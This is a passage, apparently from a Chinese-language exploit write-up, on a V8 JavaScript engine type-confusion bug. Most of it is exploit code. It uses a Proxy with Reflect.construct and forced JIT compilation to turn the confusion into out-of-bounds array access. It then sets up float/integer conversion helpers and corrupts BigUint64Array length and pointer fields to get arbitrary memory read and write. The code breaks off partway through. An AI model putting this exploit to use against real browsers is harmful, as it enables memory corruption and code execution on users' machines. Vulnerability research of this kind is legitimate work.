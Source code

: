 ```


```

`length`，`external_pointer`和`base_pointer`相对于`oob_array[0]`的偏移为`16`、`17`、`18`，意味着我们可以通过`oob_array[16]`，`oob_array[17]`和`oob_array[18]`来达成任意长度任意地址的读写操作。

```
// 从越界读写到任意地址写

let vuln_array = [,,,,,,,,,,,, 6.1, 7.1, 8.1];  // 创建时的类型是HOLEY_DOUBLE_ELEMENTS
var oob_array;                                  // 用来将类型混淆转化为越界读写
var uint64_arw;                                 // 构造任意地址读写
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

// uint64_arw中三个关键值的相对偏移
var uint64_length_offset;   
var uint64_externalptr_offset;
var uint64_baseptr_offset;  
// 保存uint64_arw的三个关键值
var uint64_length;
var uint64_externalptr_ptr;
var uint64_baseptr_ptr;

// 用来实现float和uint的类型转换
var buf =new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
// float-->uint
function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}
// uint-->float
function i2f(i)
{
    bigUint64[0] = i;
    return float64[0];
}
// 显示十六进制，纯粹为了美观
function hex(a) {
    return "0x" + a.toString(16);
}

function empty() {}
function f(p) {
    // 2.42902434121390450978968281326E-319 == 0xC00C
    vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 2.42902434121390450978968281326E-319*2);
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
}
let p = new Proxy(Object, {
    get: () => {
        vuln_array[0] = {}; // 修改之后的类型是HOLEY_ELEMENTS
        oob_array = [1.1];  // 修改此数组的length来达到oob
        uint64_arw = new BigUint64Array(2); // 实现任意地址读写
        //%DebugPrint(oob_array);
        //%DebugPrint(uint64_arw);
        //%SystemBreak();
        return Object.prototype;
    }
```